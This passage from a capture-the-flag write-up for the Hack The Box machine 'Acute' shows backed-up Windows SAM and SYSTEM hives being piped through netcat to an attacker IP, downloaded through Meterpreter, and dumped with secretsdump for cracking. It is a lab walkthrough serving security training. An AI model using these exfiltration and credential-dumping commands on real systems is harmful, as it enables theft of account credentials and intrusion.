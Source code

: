 - Transfer the backed up SAM and SYSTEM file **via the uploaded netcat executable** to our attacker machine:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:45:54(HKT)]
└> nc -lnvp 9999 > SAM                                                                            
listening on [any] 9999 ...
```

```shell
PS C:\Users\jmorgan\Documents> cat C:\Utils\SAM.bak | C:\Utils\nc.exe -w 10 10.10.14.19 9999
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:51:33(HKT)]
└> nc -lnvp 9999 > SYSTEM
listening on [any] 9999 ...
```

```shell
PS C:\Users\jmorgan\Documents> cat C:\Utils\SYSTEM.bak | C:\Utils\nc.exe -w 60 10.10.14.19 9999
```

> Note: The timeout is set to 60 seconds is because the `SYSTEM` file is kinda big (11.58 MB).

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:51:57(HKT)]
└> file SAM && file SYSTEM
SAM: MS Windows registry file, NT/2000 or above
SYSTEM: MS Windows registry file, NT/2000 or above
```

**Or you can transfer them via Meterpreter's `download` command:**
```shell
meterpreter > download C:\\Utils\\SAM.bak
[...]
[*] Downloaded 56.00 KiB of 56.00 KiB (100.0%): C:\Utils\SAM.bak -> /home/siunam/ctf/htb/Machines/Acute/SAM.bak
[*] Completed  : C:\Utils\SAM.bak -> /home/siunam/ctf/htb/Machines/Acute/SAM.bak
meterpreter > download C:\\Utils\\SYSTEM.bak
[...]
[*] Downloaded 11.58 MiB of 11.58 MiB (100.0%): C:\Utils\SYSTEM.bak -> /home/siunam/ctf/htb/Machines/Acute/SYSTEM.bak
[*] Completed  : C:\Utils\SYSTEM.bak -> /home/siunam/ctf/htb/Machines/Acute/SYSTEM.bak
```

- Generate and crack the password hashes via [Impacket](https://github.com/fortra/impacket)'s `secretsdump` and [`john`](https://github.com/openwall/john):

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|17:09:11(HKT)]
└> impacket-secretsdump -sam SAM.bak -system SYSTEM.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
[*] Cleaning up...
```

